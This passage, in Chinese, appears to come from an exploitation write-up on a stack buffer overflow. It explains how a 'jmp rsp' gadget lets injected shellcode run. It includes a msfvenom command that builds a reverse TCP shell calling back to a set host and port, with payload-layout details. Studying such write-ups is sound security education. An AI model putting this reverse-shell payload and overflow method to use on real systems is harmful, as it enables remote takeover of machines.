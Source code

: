 方向：需要去找到一个可以调用完整的 shellcode 的地址  
1）进行函数调用时会先把返回地址放到栈里  
2）当函数调用完会根据返回地址回到原本的地方  
3）所以所返回地址是个可以执行的地方  
4）如果让返回地址指向一个去的地方（放了 shellcode 的地方），那么他就会执行这个地方的东西（所以可以找有无 call rsp 或者 jmp rsp 的指令）

[![](assets/1703831476-cc31e973126c92c5589a52a3e553f0f1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227224941-2a68c456-a4c7-1.png)

（call, 执行函数调用。当 CPU 执行 call 指令时，首先会把 rip 寄存器的值入栈，然后设置 rip 值为目标地址，由于 rip 寄存 器的值决定了下一条 CPU 需要执行指令的位置，所以当 CPU 执行完成当前 call 指令后就会跳转到目标地址。）  
地址 0x400cfb 会跳转到 rsp 位置，地址长度三个字节，满足之前测试的 RIP 最多只能覆盖 4 个字节的要求

#### 3.6 shellcode 构造、生成

1.  使用 msfvenom 构建 shell\_reverse\_tcp，生成大小为 119
2.  基于 112 个 A+8 个 B+4 个 C 的分析，【shellcode】+【填充字符】+【return\_rsp】 = 124
3.  此外，这个程序使用 strcpy 来触发溢出，所以 shellcode 里不能含有 null 字符 \\x00，不然会截断。
4.  注意：地址 0x400cfb 要倒过来写，不足 8 位用 0 补齐到 8 位为止。

```bash
msfvenom -a x64 -p linux/x64/shell_reverse_tcp LHOST=192.168.80.129 LPORT=3311 -b '\x00' -f python -o shell3333

cat shell3333 |awk -F ' b' '{print $2}'|tr -d '\n"'
```

[![](assets/1703831476-77e60473ffef8fe618ae3e21a9420064.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227224847-0a9484e4-a4c7-1.png)
